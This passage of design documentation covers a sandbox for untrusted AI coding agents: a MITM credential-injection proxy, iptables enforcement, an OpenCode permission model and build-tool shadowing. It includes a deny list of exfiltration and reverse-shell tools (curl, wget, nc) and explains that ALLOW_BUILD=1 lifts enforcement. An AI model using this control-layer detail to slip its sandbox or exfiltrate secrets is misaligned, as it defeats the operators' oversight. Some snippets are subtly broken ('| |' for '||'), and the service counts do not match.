        let ext_type = u16::from_be_bytes([client_hello[offset], client_hello[offset + 1]]);
        let ext_len =
            u16::from_be_bytes([client_hello[offset + 2], client_hello[offset + 3]]) as usize;
        offset += 4;

        if ext_type == 0x0000 && offset + ext_len <= client_hello.len() {
            if ext_len < 5 {
                return None;
            }
            let list_len =
                u16::from_be_bytes([client_hello[offset], client_hello[offset + 1]]) as usize;

            if client_hello[offset + 2] == 0x00 {
                let name_len =
                    u16::from_be_bytes([client_hello[offset + 3], client_hello[offset + 4]])
                        as usize;

                if offset + 5 + name_len <= client_hello.len() {
                    let hostname = &client_hello[offset + 5..offset + 5 + name_len];
                    return String::from_utf8(hostname.to_vec()).ok();
                }
            }
            return None;
        }

        offset += ext_len;
    }

    None
}
```

#### 7.2 SNI Parsing Walkthrough

The parser walks the raw TLS ClientHello bytes:

| Offset | Field | Size | Purpose |
| --- | --- | --- | --- |
| 0 | Handshake type | 1 byte | Must be `0x16` (handshake) |
| 5 | Message type | 1 byte | Must be `0x01` (ClientHello) |
| 43 | Session ID length | 1 byte | Variable-length skip |
| +1 | Cipher suites length | 2 bytes | Variable-length skip |
| +3 | Compression methods length | 1 byte | Variable-length skip |
| +1 | Extensions length | 2 bytes | Bounds for extension scan |
| +2 | Extension type | 2 bytes | Looking for `0x0000` (SNI) |
| +2 | Extension length | 2 bytes | Bounds for this extension |
| +5 | Hostname | variable | The target hostname |

If no SNI is found, the MITM cannot determine the target hostname and the connection falls back to passthrough mode.

#### 7.3 MitmAcceptor Integration

**Ref:** `proxy/src/tls/acceptor.rs:17-44`

```rust
pub struct MitmAcceptor {
    ca: Arc<CertificateAuthority>,
    cache: Arc<CertificateCache>,
}

impl MitmAcceptor {
    pub fn new(ca: Arc<CertificateAuthority>) -> Self {
        Self {
            ca,
            cache: Arc::new(CertificateCache::new()),
        }
    }

    pub async fn get_certificate(&self, hostname: &str) -> Result<Arc<HostCertificate>, TlsError> {
        self.cache.get_or_create(hostname, &self.ca).await
    }

    pub async fn create_acceptor(&self, hostname: &str) -> Result<TlsAcceptor, TlsError> {
        let cert = self.get_certificate(hostname).await?;
        let config = build_server_config(&cert)?;
        Ok(TlsAcceptor::from(Arc::new(config)))
    }
}
```

The `MitmAcceptor` combines the CA and cache into a single interface. `get_certificate` is the cache-aware entry point; `create_acceptor` builds a full `rustls` `ServerConfig` from the cached or generated certificate.

---

### 8. Certificate Rotation

#### 8.1 Agent Certificate Renewal

Agent certificates are issued with a 720-hour (30-day) validity. Renewal follows this process:

1. **Detection:** The agent (or orchestration layer) checks certificate expiry
2. **Re-enrollment:** `step ca renew` is called with the existing certificate to obtain a new one
3. **Replacement:** The new certificate overwrites the old one in the Docker volume
4. **Reload:** The proxy reloads its trust store to accept the new client certificate

#### 8.2 MITM CA Persistence

The MITM CA is persisted to disk at `ca-data/certs/`. Across proxy restarts:

- If `ca.pem` and `ca-key.pem` exist: loaded from disk (same CA, all cached certs remain valid)
- If they don't exist: new CA generated (all previously cached certs become invalid, agent must re-trust)

This persistence ensures the MITM CA identity remains stable across container restarts, avoiding the need to redistribute the CA certificate to the agent on every restart.

#### 8.3 Step-CA Root and Intermediate

Step-CA stores its root and intermediate certificates in a Docker named volume (`step-ca-config`). This volume persists across container restarts, maintaining the same PKI hierarchy. If the volume is deleted, a new PKI is generated and all previously issued certificates become invalid.

---

### 9. TLS Error Handling

#### 9.1 Error Types

**Ref:** `proxy/src/tls/error.rs:6-11`

```rust
pub enum TlsError {
    CertGeneration(String),
    Io(std::io::Error),
    InvalidCertificate(String),
    TlsHandshake(String),
}
```

| Error Variant | When It Occurs |
| --- | --- |
| `CertGeneration` | CA or host certificate generation fails |
| `Io` | File read/write errors for cert/key files |
| `InvalidCertificate` | Certificate parsing or validation fails |
| `TlsHandshake` | TLS handshake with client or server fails |

All error types implement `std::error::Error`, `Display`, `Send`, and `Sync`, making them compatible with async Rust error handling.

#### 9.2 Fail-Closed Behavior

When TLS MITM fails (certificate generation, handshake, SNI extraction), the CONNECT tunnel falls back to **passthrough mode** rather than failing open. In passthrough mode, traffic is relayed without inspection — meaning no credential injection occurs. This is acceptable because the proxy is BLOCKED by iptables in LOCKED mode, so the agent cannot initiate CONNECT tunnels without `ALLOW_BUILD=1`, and `ALLOW_BUILD` always uses passthrough mode anyway.

---

### Key Takeaways

1. **Two distinct TLS architectures.** Step-CA provides PKI infrastructure for mTLS authentication between agent and proxy. The internal MITM CA provides on-the-fly certificate generation for intercepting HTTPS traffic on ports 443/8443. These are separate trust hierarchies with different purposes.

2. **mTLS is configurable, not mandatory.** `MTLS_ENABLED` and `MTLS_ENFORCE` allow graduated deployment — from disabled (development) through opportunistic (optional client cert) to strict (mandatory client cert verification). This enables incremental rollout without breaking existing workflows.

3. **MITM only for credential-relevant traffic.** Ports 443/8443 are intercepted for credential injection; all other ports use passthrough. When `ALLOW_BUILD=1`, even 443/8443 use passthrough because build tool traffic doesn't need credential handling.

4. **LRU cache prevents repeated CA signing.** The 1000-entry LRU cache ensures that frequently accessed hosts (e.g., `api.github.com`) generate a certificate only once, with subsequent connections reusing the cached entry. Timestamp-based eviction keeps the cache bounded.

5. **MITM CA persists across restarts.** The CA certificate and key are saved to `ca-data/certs/`, so the same CA identity is used across proxy restarts. The agent trusts this CA, so no redistribution is needed after a proxy restart.

6. **SNI parsing is custom and zero-dependency.** The proxy includes a hand-rolled TLS ClientHello parser for SNI extraction, avoiding dependency on a heavy TLS parser library. The parser validates bounds at every step and returns `None` on any malformed input.

---

# Section 8: Agent Execution Environment

### Overview

This document provides a comprehensive technical analysis of the SLAPENIR agent execution environment — the containerized sandbox where untrusted AI agents operate under strict security constraints. It covers the Wolfi base image selection rationale, the 12-layer Dockerfile build process, the s6-overlay init system with its 14 supervised services and dependency graph, the OpenCode permission model with its tripartite allow/deny/ask policy, the MCP knowledge plane (memory, knowledge, code-graph-rag), binary shadowing for build tool interception, the BASH_ENV DEBUG trap mechanism, the Node.js fetch monkey-patch, and the air-gapped ML model provisioning strategy.

---

### 1. Wolfi Base Image Rationale

#### 1.1 Why Wolfi Over Alpine or Debian

The agent container is built on `cgr.dev/chainguard/wolfi-base:latest`, selected over alternatives for three reasons:

**Ref:** `agent/Dockerfile:4`

```dockerfile
FROM cgr.dev/chainguard/wolfi-base:latest
```

| Property | Wolfi | Alpine | Debian Slim |
| --- | --- | --- | --- |
| Package manager | `apk` | `apk` | `apt` |
| C library | `glibc` + `musl` | `musl` only | `glibc` |
| Default shell | `bash` (installable) | `ash` (BusyBox) | `bash` |
| Attack surface | Minimal (no shell by default) | Minimal | Moderate |
| CVE remediation | Chainguard daily rebuilds | Community-driven | Debian security team |
| Node.js compatibility | Full glibc binary support | Requires musl workaround | Native glibc |
| Java support | `openjdk-21` via apk | Limited JDK packages | Full JDK |
| Root shell | No default root shell | Root shell by default | Root shell by default |

#### 1.2 glibc Compatibility

The critical differentiator is glibc support. OpenCode distributes pre-built Linux binaries linked against glibc. Alpine uses musl exclusively, requiring a compatibility shim. Wolfi provides both glibc and musl, enabling direct binary execution without emulation layers. This is particularly important for the OpenCode CLI installation:

**Ref:** `agent/Dockerfile:53-61`

```dockerfile
RUN ARCH=$(node -e "console.log(process.arch === 'arm64' ? 'arm64' : 'x64')") && \
    npm install -g --ignore-scripts "opencode-ai@1.3.13" "opencode-linux-${ARCH}-musl@1.3.13" && \
    cp -r \
      "/usr/local/lib/node_modules/opencode-linux-${ARCH}-musl" \
      "/usr/local/lib/node_modules/opencode-linux-${ARCH}" && \
    cd /usr/local/lib/node_modules/opencode-ai && \
    node postinstall.mjs && \
    test -f /usr/local/lib/node_modules/opencode-ai/bin/.opencode && \
    echo "OpenCode binary installed successfully"
```

The install process installs the musl variant (`opencode-linux-${ARCH}-musl`) and copies it to the glibc-expected path (`opencode-linux-${ARCH}`), then runs the postinstall script to wire up the binary. The `--ignore-scripts` flag prevents npm from running lifecycle scripts (security measure), and the explicit `test -f` assertion verifies the binary was correctly installed.

#### 1.3 getconf Compatibility Shim

Wolfi does not ship the `getconf` utility, which VS Code Server (and some OpenCode dependencies) require. A minimal wrapper is installed:

**Ref:** `agent/Dockerfile:38-43`

```dockerfile
RUN printf '#!/bin/sh\n\
case "$1" in\n\
    LONG_BIT) echo 64 ;;\n\
    GNU_LIBC_VERSION) echo "glibc 2.38" ;;\n\
    *) echo "getconf: unknown variable $1" >&2; exit 1 ;;\n\
esac\n' > /usr/bin/getconf && chmod +x /usr/bin/getconf
```

---

### 2. Build Layers

#### 2.1 The 12-Layer Dockerfile Architecture

The agent Dockerfile is structured as 12 sequential build layers, each serving a distinct purpose. Layers are ordered to maximize Docker build cache hits — frequently changing layers (application code) appear later than stable layers (system packages).

| Layer | Dockerfile Lines | Purpose | Cache Frequency |
| --- | --- | --- | --- |
| 1: Base image | 4 | Wolfi base OS | Never changes |
| 2: System packages | 12-35 | Python, Java, Rust, build tools, iptables | Rarely changes |
| 3: Node.js + OpenCode | 46-61 | Node.js runtime + OpenCode CLI | Changes on version bump |
| 4: s6-overlay | 64-67 | Process supervision init system | Rarely changes |
| 5: Step CLI | 70 | Certificate management (binary copy) | Rarely changes |
| 6: User + directories | 73-98 | agent user, workspace, config dirs | Rarely changes |
| 7: Configuration | 83-116 | OpenCode config, AGENTS.md, s6 services | Changes with config |
| 8: Gradle pre-cache | 131-140 | Pre-download Gradle distribution | Changes on version bump |
| 9: Python dependencies | 155-201 | Runtime packages + code-graph-rag | Changes on dep update |
| 10: MCP + ML model | 216-256 | MCP servers + HuggingFace model | Changes on model update |
| 11: Binary shadowing | 267-290 | Build wrappers, netctl, symlinks | Rarely changes |
| 12: Environment + entrypoint | 303-325 | ENV vars, healthcheck, ENTRYPOINT | Rarely changes |

#### 2.2 Layer 2: System Package Installation

**Ref:** `agent/Dockerfile:12-35`

```dockerfile
RUN apk add --no-cache \
    python-3.12 \
    python-3.12-dev \
    py3-pip \
    build-base \
    git \
    curl \
    ca-certificates \
    xz \
    openssh-client \
    bash \
    iptables \
    iproute2 \
    gnupg \
    openjdk-21 \
    gradle \
    maven \
    yarn \
    pnpm \
    rust \
    cmake \
    ripgrep \
    openssl-dev \
    netcat-openbsd
```

The package list serves four functional categories:

| Category | Packages | Purpose |
| --- | --- | --- |
| Runtime languages | `python-3.12`, `openjdk-21`, `nodejs`, `rust` | Multi-language agent support |
| Build tools | `gradle`, `maven`, `yarn`, `pnpm`, `cmake`, `build-base` | On-prem project compilation |
| Security tooling | `iptables`, `iproute2`, `netcat-openbsd` | Network isolation enforcement |
| Developer experience | `git`, `curl`, `ripgrep`, `bash`, `gnupg` | Agent workspace operations |

#### 2.3 Layer 4: s6-overlay Installation

**Ref:** `agent/Dockerfile:64-67`

```dockerfile
ARG S6_OVERLAY_VERSION=3.1.6.2
ARG TARGETARCH=aarch64
RUN curl -L "https://github.com/just-containers/s6-overlay/releases/download/v${S6_OVERLAY_VERSION}/s6-overlay-noarch.tar.xz" | tar -C / -Jxpf - && \
    curl -L "https://github.com/just-containers/s6-overlay/releases/download/v${S6_OVERLAY_VERSION}/s6-overlay-${TARGETARCH}.tar.xz" | tar -C / -Jxpf -
```

Two archives are required: the architecture-independent base (`noarch`) and the platform-specific binary layer (`aarch64` for ARM, `x86_64` for Intel). Both are extracted to the root filesystem, overlaying their directory structure onto `/command`, `/etc/s6-overlay`, and `/init`.

---

### 3. s6-overlay Init System

#### 3.1 Why s6-overlay

The container uses s6-overlay v3.1.6.2 as its init system rather than a simple `CMD` invocation. This provides:

| Capability | s6-overlay | Plain CMD |
| --- | --- | --- |
| Process supervision | Automatic restart on crash | None (container exits) |
| Dependency ordering | Declarative service dependencies | Manual scripting |
| Signal propagation | SIGTERM → all supervised processes | SIGTERM → PID 1 only |
| Graceful shutdown | Finish scripts with exit code logic | None |
| Privilege dropping | `S6_RUNASUSER` for user services | Manual `su`/`gosu` |
| Phased initialization | `cont-init.d` → `s6-rc.d` → longrun | Single script |

#### 3.2 Boot Sequence

The s6-overlay boot follows a strict three-phase sequence:

**Ref:** `agent/Dockerfile:317-324`

```dockerfile
ENV S6_RUNASUSER=agent
ENTRYPOINT ["/init"]
CMD []
```

The `ENTRYPOINT` is set to `/init` (the s6-overlay init binary), and `S6_RUNASUSER=agent` ensures all supervised user services drop privileges to the `agent` user. The container runs as root (needed for iptables in `cont-init.d`), but s6-overlay drops to `agent` for the service supervision phase.

#### 3.3 s6-overlay Boot Sequence Flowchart

```mermaid
flowchart TD
    START["docker compose up<br/>agent container"] --> INIT["/init<br/>(s6-overlay PID 1)"]
    
    INIT --> CONT["Phase 1: cont-init.d/<br/>(runs as root)"]
    
    CONT --> C00["00-fix-permissions<br/>chown workspace volume"]
    C00 --> C01["01-traffic-enforcement<br/>iptables chain setup<br/>(LOCKED mode)"]
    C01 --> C02["02-populate-huggingface-cache<br/>Copy ML model to runtime volume"]
    
    C02 --> RC["Phase 2: s6-rc.d/<br/>(oneshot services, ordered by dependencies)"]
    
    RC --> D1["env-init"]
    RC --> D2["env-dummy-init"]
    RC --> D3["bash-init"]
    RC --> D4["ollama-verify"]
    
    D2 --> D5["git-init<br/>(depends: env-dummy-init)"]
    D5 --> D6["ssh-config-init<br/>(depends: git-init)"]
    D6 --> D7["gpg-init<br/>(depends: git-init, ssh-config-init)"]
    
    D1 --> D8["build-config<br/>(depends: env-init)"]
    D1 --> D9["memgraph-verify<br/>(depends: env-init)"]
    
    D2 --> D10["startup-validation<br/>(depends: env-dummy-init, git-init)"]
    D10 --> D11["runtime-monitor<br/>(depends: startup-validation)"]
    
    RC --> LONGRUN["Phase 3: longrun services<br/>(supervised, auto-restart)"]
    
    LONGRUN --> L1["agent-svc<br/>(Python agent process)"]
    LONGRUN --> L2["metrics<br/>(depends: agent-svc)"]
    LONGRUN --> L3["runtime-monitor<br/>(iptables integrity checks, 30s interval)"]
    
    L1 --> READY["Container healthy<br/>Agent operational"]
    
    style CONT fill:#e74c3c,color:#fff
    style RC fill:#3498db,color:#fff
    style LONGRUN fill:#27ae60,color:#fff
    style READY fill:#2ecc71,color:#fff
```

---

### 4. cont-init.d Scripts

#### 4.1 Phase 1: Root-Level Initialization

The three `cont-init.d` scripts execute as root before any s6 service starts. They handle operations that require elevated privileges.

#### 00-fix-permissions

**Ref:** `agent/s6-overlay/cont-init.d/00-fix-permissions`

```bash
chown -R agent:agent /home/agent/workspace
find /home/agent/workspace -name '.git' -type d -exec chown -R agent:agent {} \; 2>/dev/null | | true
```

Docker volume mounts are owned by root by default. This script recursively changes ownership to the `agent` user, including `.git` directories that may have been bind-mounted from the host.

#### 01-traffic-enforcement

**Ref:** `agent/s6-overlay/cont-init.d/01-traffic-enforcement:13-20`

```bash
if [ "${ALLOW_BUILD:-}" = "1" ] | | [ "${ALLOW_BUILD:-}" = "true" ]; then
    echo "[traffic-init] ALLOW_BUILD mode enabled - traffic enforcement DISABLED"
    iptables -F TRAFFIC_ENFORCE 2>/dev/null | | true
    iptables -X TRAFFIC_ENFORCE 2>/dev/null | | true
    iptables -t nat -F TRAFFIC_REDIRECT 2>/dev/null | | true
    iptables -t nat -X TRAFFIC_REDIRECT 2>/dev/null | | true
    iptables -t nat -D OUTPUT -j TRAFFIC_REDIRECT 2>/dev/null | | true
    exit 0
fi
exec /home/agent/scripts/traffic-enforcement.sh
```

This is the default LOCKED mode initializer. If `ALLOW_BUILD` is not set, it delegates to `traffic-enforcement.sh` which constructs the full 17-rule iptables chain (documented in WP-06). If `ALLOW_BUILD=1` is set at container start, all traffic enforcement is flushed — used for unrestricted debugging shells.

#### 02-populate-huggingface-cache

**Ref:** `agent/s6-overlay/cont-init.d/02-populate-huggingface-cache:8-15`

```bash
BUILD_CACHE="/opt/huggingface-cache"
RUNTIME_CACHE="/home/agent/.cache/huggingface"
MARKER_FILE="$RUNTIME_CACHE/.cache-populated"

if [ -f "$MARKER_FILE" ]; then
    echo "[huggingface-cache] Cache already initialized, skipping"
    exit 0
fi
```

The ML embedding model is downloaded during Docker build into `/opt/huggingface-cache` (Layer 10). At runtime, this script copies it to the runtime cache volume (`/home/agent/.cache/huggingface`) on first boot, using a marker file to prevent redundant copies on subsequent starts.

---

### 5. s6-rc.d Service Dependency Graph

#### 5.1 Service Inventory

The s6-rc.d directory contains 14 service definitions organized into two types:

| Service | Type | Dependencies | Purpose |
| --- | --- | --- | --- |
| `env-init` | oneshot | — | Agent environment initialization |
| `env-dummy-init` | oneshot | — | Generate dummy credentials, export to s6 env |
| `bash-init` | oneshot | — | Generate `.bashrc` with build wrappers + traps |
| `ollama-verify` | oneshot | — | Verify LLM connectivity through proxy |
| `git-init` | oneshot | `env-dummy-init` | Initialize git credentials |
| `ssh-config-init` | oneshot | `git-init` | Configure SSH for git operations |
| `gpg-init` | oneshot | `git-init`, `ssh-config-init` | Initialize GPG for commit signing |
| `build-config` | oneshot | `env-init` | Configure build tool proxy settings |
| `memgraph-verify` | oneshot | `env-init` | Verify Memgraph connectivity for Code-Graph-RAG |
| `startup-validation` | oneshot | `env-dummy-init`, `git-init` | Run startup verification tests |
| `runtime-monitor` | longrun | `startup-validation` | Background iptables integrity monitor |
| `agent-svc` | longrun | — | Main agent Python process |
| `metrics` | longrun | `agent-svc` | Prometheus metrics exporter |

#### 5.2 Dependency Graph

```text
env-dummy-init ──────────────┬──> git-init ──┬──> ssh-config-init ──> gpg-init
                             │               │
                             │               └──> startup-validation ──> runtime-monitor (longrun)
                             │
env-init ────────────────────┼──> build-config
                             │
                             └──> memgraph-verify

ollama-verify (independent)
bash-init (independent)

agent-svc (longrun, independent) ──> metrics (longrun)
```

The `user` bundle registers all services for the user supervision tree:

**Ref:** `agent/s6-overlay/s6-rc.d/user/contents.d/`

```text
bash-init, env-dummy-init, env-init, git-init, gpg-init,
memgraph-verify, metrics, ollama-verify, runtime-monitor, startup-validation
```

#### 5.3 Service Types

| Type | Behavior | Services |
| --- | --- | --- |
| `oneshot` | Run once, block dependents until complete | 10 init services |
| `longrun` | Run continuously, supervised with auto-restart | `agent-svc`, `metrics`, `runtime-monitor` |

#### 5.4 Process Supervision Lifecycle

```mermaid
stateDiagram-v2
    [*] --> Starting: /init s6-overlay
    
    Starting --> ContInit: Phase 1
    ContInit --> S6RC: Phase 2 oneshot services
    S6RC --> Longrun: Phase 3 supervised daemons
    
    Longrun --> Running: All services healthy
    Running --> Crash: Process exits non-zero
    Crash --> Restart: Exit code 1-99
    Crash --> FatalStop: Exit code >= 100
    Running --> CleanStop: Exit code 0 or SIGTERM
    Restart --> Running: Service restarted
    FatalStop --> [*]
    CleanStop --> [*]
    
    Running --> MonitorCheck: Every 30s
    MonitorCheck --> Running: Integrity OK
    MonitorCheck --> EmergencyShutdown: 3 consecutive failures
    EmergencyShutdown --> [*]: Kill all agent processes
```

#### 5.5 agent-svc Restart Policy

The `finish` script implements a graduated restart policy based on exit codes:

**Ref:** `agent/s6-overlay/s6-rc.d/agent-svc/finish:10-28`

```bash
case "$EXIT_CODE" in
    0)
        echo "[agent-svc] Clean shutdown, not restarting"
        exit 0
        ;;
    [1-9] | [1-9][0-9])
        echo "[agent-svc] Recoverable error, will restart after 5s delay"
        sleep 5
        exit 0
        ;;
    *)
        echo "[agent-svc] Fatal error (exit code $EXIT_CODE), stopping container"
        exit 1
        ;;
esac
```

| Exit Code Range | Action | Rationale |
| --- | --- | --- |
| 0 | Do not restart | Clean shutdown (SIGTERM or intentional) |
| 1-99 | Restart after 5s delay | Recoverable errors (network timeout, proxy unavailable) |
| 100+ | Stop container | Fatal errors (corruption, misconfiguration) |

---

### 6. OpenCode Permission Model

#### 6.1 Tripartite Policy: Allow / Deny / Ask

The OpenCode permission model is defined in `opencode.json` under the `permission` key. It implements three access levels:

**Ref:** `agent/config/opencode.json:54-244`

```json
"permission": {
    "*": "deny",
    "read": "allow",
    "edit": "allow",
    "grep": "allow",
    "glob": "allow",
    "list": "allow",
    "webfetch": "deny",
    "websearch": "deny",
    ...
}
```

| Level | Meaning | User Interaction |
| --- | --- | --- |
| `allow` | Execute without prompting | None — silent execution |
| `deny` | Block entirely | Agent receives "denied" error |
| `ask` | Prompt for human approval | Human must approve each invocation |

#### 6.2 Default-Deny Policy

The wildcard rule `"*": "deny"` establishes a default-deny baseline. Every tool and bash command is denied unless explicitly listed. This follows the principle of least privilege — the agent can only perform operations that have been explicitly whitelisted.

#### 6.3 Bash Permission Hierarchy

Bash permissions are evaluated in a prefix-match order. More specific patterns override less specific ones:

**Ref:** `agent/config/opencode.json:67-243`

```json
"bash": {
    "*": "ask",
    "ls *": "allow",
    "cat *": "allow",
    ...
    "curl *": "deny",
    "wget *": "deny",
    "nc *": "deny",
    "npm *": "deny",
    "gradle *": "deny",
    ...
    "ALLOW_BUILD=1 npm *": "allow",
    "ALLOW_BUILD=1 gradle *": "allow",
    ...
}
```

The evaluation priority is:

| Priority | Pattern | Level | Example |
| --- | --- | --- | --- |
| 1 | Exact command with env prefix | `allow` | `ALLOW_BUILD=1 gradle *` |
| 2 | Tool-specific command | `deny` | `gradle *` |
| 3 | Read-only command | `allow` | `ls *`, `cat *`, `grep *` |
| 4 | Network tool | `deny` | `curl *`, `wget *`, `nc *` |
| 5 | Destructive command | `ask` | `rm *`, `git push *` |
| 6 | Wildcard fallback | `ask` | `*` |

#### 6.4 Network Tool Deny List

The following commands are explicitly denied to prevent credential exfiltration:

| Command | Risk | Alternative |
| --- | --- | --- |
| `curl` | Arbitrary HTTP requests, data exfiltration | `ALLOW_BUILD=1 curl` via proxy |
| `wget` | File download/upload, credential embedding | `ALLOW_BUILD=1 wget` via proxy |
| `nc` / `netcat` | Raw TCP connections, reverse shells | None (completely blocked) |
| `ssh` | Remote shell, tunnel, SCP | `git push`/`git pull` (host-configured) |
| `scp` | Remote file copy | None |
| `rsync` | Bidirectional file sync | None |

#### 6.5 Build Tool Gated Access

Build tools are denied by default but allowed when prefixed with `ALLOW_BUILD=1`:

```json
"gradle *": "deny",
"ALLOW_BUILD=1 gradle *": "allow",
"GRADLE_ALLOW_BUILD=1 gradle *": "allow"
```

This two-rule pattern creates a security gate: OpenCode blocks the bare command but allows the explicitly-gated variant. When the agent executes `ALLOW_BUILD=1 gradle build`, the command passes the OpenCode permission check, then the build wrapper detects `ALLOW_BUILD=1` and enables network access through the proxy.

#### 6.6 MCP Tool Permissions

MCP server tools follow a namespace pattern:

```json
"code-graph-rag_*": "allow",
"memory_*": "allow",
"knowledge_*": "allow",
"mcp_*": "deny"
```

Specific MCP servers (`code-graph-rag`, `memory`, `knowledge`) are allowed, while the wildcard `mcp_*` denies any other MCP server. This prevents a compromised agent from connecting to unauthorized MCP endpoints.

#### 6.7 AGENTS.md Behavioral Constraints

Beyond tool-level permissions, the `AGENTS.md` file provides behavioral instructions loaded into the OpenCode agent's context:

**Ref:** `agent/config/AGENTS.md:1-15`

```markdown

## Loop Prevention Instructions for OpenCode Agent

### Critical: Loop Detection and Recovery

You MUST follow these rules to prevent getting stuck in repetitive cycles.

### Detection Rules

**You are in a loop if:**

- You execute the same action 3+ times without progress
- You repeat the same thinking pattern without trying something different

```

The AGENTS.md contains 278 lines of behavioral constraints covering:

| Section | Purpose |
| --- | --- |
| Loop detection | Prevent infinite retry cycles (max 3 attempts) |
| Tool denied handling | Stop immediately on permission denial, do not retry |
| Build tool restrictions | Block build execution, guide to `ALLOW_BUILD=1` |
| Escalation protocol | Request human guidance after 2 failed approaches |
| Maximum attempts | Hard limit of 3 retries per approach |

---

### 7. MCP Server Configuration

#### 7.1 Three MCP Servers

The OpenCode configuration defines three MCP (Model Context Protocol) servers that provide the agent with knowledge and memory capabilities:

**Ref:** `agent/config/opencode.json:12-52`

| Server | Command | Purpose | Timeout |
| --- | --- | --- | --- |
| `code-graph-rag` | `code-graph-rag mcp-server` | AST-based code search via Memgraph | 9,000s (2.5h) |
| `memory` | `mcp-server-memory` | SQLite-based knowledge graph | 3,600s (1h) |
| `knowledge` | `mcp-local-rag` | Document retrieval with ML embeddings | 3,600s (1h) |

#### 7.2 Code-Graph-RAG Configuration

**Ref:** `agent/config/opencode.json:13-30`

```json
"code-graph-rag": {
    "type": "local",
    "command": ["code-graph-rag", "mcp-server"],
    "enabled": true,
    "timeout": 9000000,
    "environment": {
        "TARGET_REPO_PATH": "/home/agent/workspace",
        "ORCHESTRATOR_PROVIDER": "openai",
        "ORCHESTRATOR_MODEL": "qwen3.5-35b-a3b-ud-q4_k_xl",
        "ORCHESTRATOR_ENDPOINT": "http://host.docker.internal:8080/v1",
        "ORCHESTRATOR_API_KEY": "sk-local",
        "MEMGRAPH_HOST": "memgraph",
        "MEMGRAPH_PORT": "7687"
    }
}
```

The code-graph-rag server connects to Memgraph (Bolt protocol on port 7687) for AST-indexed code search. It uses the local LLM for query orchestration and Cypher query generation, routing through `host.docker.internal:8080` to the host's Ollama instance. The `sk-local` API key is a placeholder — the local LLM does not require authentication.

#### 7.3 Knowledge Server (mcp-local-rag)

**Ref:** `agent/config/opencode.json:39-52`

```json
"knowledge": {
    "type": "local",
    "command": ["mcp-local-rag"],
    "enabled": true,
    "timeout": 3600000,
    "environment": {
        "BASE_DIR": "/home/agent/workspace/docs",
        "DB_PATH": "/home/agent/.local/share/mcp-knowledge/lancedb",
        "MODEL_NAME": "Xenova/all-MiniLM-L6-v2",
        "CACHE_DIR": "/home/agent/.cache/huggingface",
        "HF_HUB_OFFLINE": "1"
    }
}
```

The knowledge server indexes documents from `workspace/docs` using `Xenova/all-MiniLM-L6-v2` embeddings stored in LanceDB. The `HF_HUB_OFFLINE=1` flag ensures the server operates in air-gapped mode, using the pre-cached model without attempting to contact HuggingFace Hub.

---

### 8. Knowledge Plane (Memory, Knowledge, Code-Graph-RAG)

#### 8.1 Three-Layer Knowledge Architecture

```mermaid
flowchart TD
    AGENT["OpenCode Agent<br/>(AI assistant)"] --> MCP["MCP Protocol<br/>(stdio JSON-RPC)"]
    
    MCP --> MEMORY["memory<br/>mcp-server-memory<br/>SQLite knowledge graph"]
    MCP --> KNOWLEDGE["knowledge<br/>mcp-local-rag<br/>Document retrieval + embeddings"]
    MCP --> CODEGRAPH["code-graph-rag<br/>AST code search"]
    
    MEMORY --> SQLITE[("/home/agent/.local/share/mcp-memory<br/>SQLite database")]
    
    KNOWLEDGE --> LANCEDB[("/home/agent/.local/share/mcp-knowledge/lancedb<br/>Vector database")]
    KNOWLEDGE --> MODEL["Xenova/all-MiniLM-L6-v2<br/>Pre-cached embedding model<br/>(HF_HUB_OFFLINE=1)"]
    KNOWLEDGE --> DOCS[("/home/agent/workspace/docs<br/>Source documents")]
    
    CODEGRAPH --> MEMGRAPH[("Memgraph :7687<br/>Bolt protocol<br/>AST graph database")]
    CODEGRAPH --> LLM["Local LLM :8080<br/>qwen3.5-35b<br/>Query orchestration + Cypher gen"]
    
    MODEL --> CACHE[("/home/agent/.cache/huggingface<br/>Pre-populated from build<br/>(cont-init.d/02)")]
    
    style AGENT fill:#9b59b6,color:#fff
    style MEMORY fill:#3498db,color:#fff
    style KNOWLEDGE fill:#e67e22,color:#fff
    style CODEGRAPH fill:#27ae60,color:#fff
```

#### 8.2 Data Flow

| Tool | Input | Storage | Query Method | LLM Dependency |
| --- | --- | --- | --- | --- |
| `memory` | Conversational facts | SQLite (local file) | Direct SQL queries | None |
| `knowledge` | Documents (MD, PDF, DOCX) | LanceDB (vector embeddings) | Semantic similarity search | Embedding model only |
| `code-graph-rag` | Source code (AST parsed) | Memgraph (graph database) | Cypher queries + semantic search | LLM for orchestration |

#### 8.3 Air-Gapped Operation

All three knowledge tools operate without internet connectivity:

- **memory**: SQLite is embedded, no network dependency
- **knowledge**: `HF_HUB_OFFLINE=1` prevents HuggingFace Hub access; the `Xenova/all-MiniLM-L6-v2` model is pre-cached during Docker build (Layer 10) and copied to the runtime volume by `cont-init.d/02-populate-huggingface-cache`
- **code-graph-rag**: Uses the local LLM at `host.docker.internal:8080` and Memgraph on the Docker network — both are internal services

---

### 9. Binary Shadowing

#### 9.1 Shadow Mechanism

Build tools are intercepted through binary shadowing — the real tools are renamed to a `.real` suffix and replaced with symlinked wrapper scripts:

**Ref:** `agent/Dockerfile:267-277`

```dockerfile
RUN for tool in gradle mvn npm yarn pnpm cargo pip pip3; do \
        if command -v $tool >/dev/null 2>&1; then \
            real_path=$(which $tool); \
            if [ ! -f "${real_path}.real" ]; then \
                mv "$real_path" "${real_path}.real"; \
                if [ -f "/home/agent/scripts/${tool}-wrapper" ]; then \
                    ln -s /home/agent/scripts/${tool}-wrapper "$real_path"; \
                fi; \
            fi; \
        fi; \
    done
```

The shadowing process for each tool:

1. `which gradle` → `/usr/bin/gradle`
2. `mv /usr/bin/gradle /usr/bin/gradle.real`
3. `ln -s /home/agent/scripts/gradle-wrapper /usr/bin/gradle`

After shadowing, executing `gradle build` runs the wrapper script, which applies the security policy (WP-06 Section 4).

#### 9.2 Shadowed Tools

| Tool | Real Binary | Wrapper Script | Override Variable |
| --- | --- | --- | --- |
| `gradle` | `/usr/bin/gradle.real` | `/home/agent/scripts/gradle-wrapper` | `GRADLE_ALLOW_BUILD=1` |
| `mvn` | `/usr/bin/mvn.real` | `/home/agent/scripts/mvn-wrapper` | `MVN_ALLOW_BUILD=1` |
| `npm` | `/usr/bin/npm.real` | `/home/agent/scripts/npm-wrapper` | `NPM_ALLOW_BUILD=1` |
| `yarn` | `/usr/bin/yarn.real` | `/home/agent/scripts/yarn-wrapper` | `YARN_ALLOW_BUILD=1` |
| `pnpm` | `/usr/bin/pnpm.real` | `/home/agent/scripts/pnpm-wrapper` | `PNPM_ALLOW_BUILD=1` |
| `pip` | `/usr/bin/pip.real` | `/home/agent/scripts/pip-wrapper` | `PIP_ALLOW_BUILD=1` |
